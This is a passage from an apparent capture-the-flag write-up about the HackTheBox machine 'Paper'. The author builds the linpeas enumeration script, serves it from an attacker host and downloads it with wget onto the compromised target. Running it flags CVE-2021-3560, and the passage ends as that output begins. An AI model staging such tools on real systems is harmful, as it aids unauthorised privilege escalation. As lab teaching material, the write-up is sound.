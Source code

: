 

    oxdf@hacky$ ls
    builder  images  README.md



From there, I'll call the builder script with
`python3 -m builder.linpeas_builder`. This is going to run
`linpeas_builder` from the `builder` directory, which builds a `.sh`
script:



    oxdf@hacky$ python -m builder.linpeas_builder
    [+] Building temporary linpeas_base.sh...
    [+] Building variables...
    [+] Building finds...
    [+] Building storages...
    [+] Checking duplicates...
    [+] Building autocheck sections...
    [+] Building regexes searches...
    [+] Building linux exploit suggesters...
    [+] Building GTFOBins lists...
    [+] Final sanity checks...
    oxdf@hacky$ 
    oxdf@hacky$ ls
    builder  images  linpeas.sh  README.md



I'll start a webserver (`python3 -m http.server 80`) in that directory,
and then fetch it from Paper with `wget` (working out of `/dev/shm` as a
temp directory):



    [dwight@paper shm]$ wget 10.10.14.6/linpeas.sh
    --2022-06-05 14:16:30--  http://10.10.14.6/linpeas.sh
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 776776 (759K) [text/x-sh]
    Saving to: ‘linpeas.sh’

    linpeas.sh                                           100%[=================================>] 758.57K  1.17MB/s    in 0.6s    

    2022-06-05 14:16:31 (1.17 MB/s) - ‘linpeas.sh’ saved [776776/776776]



#### Results

I'll run `linpeas` with `bash linpeas.sh`. Right at the top of the
output under "System Information", it says the system is vulnerable to
CVE-2021-3560:



                                            ╔════════════════════╗
    ════════════════════════════════════════╣ System Information ╠════════════════════════════════════════
                                            ╚════════════════════╝
    ╔══════════╣ Operative system
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
    Linux version 4.18.0-348.7.1.el8_5.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 8.5.0 20210514 (Red Hat 8.5.0-4) (GCC)) #1 SMP Wed Dec 22 13:25:12 UTC 2021
    lsb_release Not Found

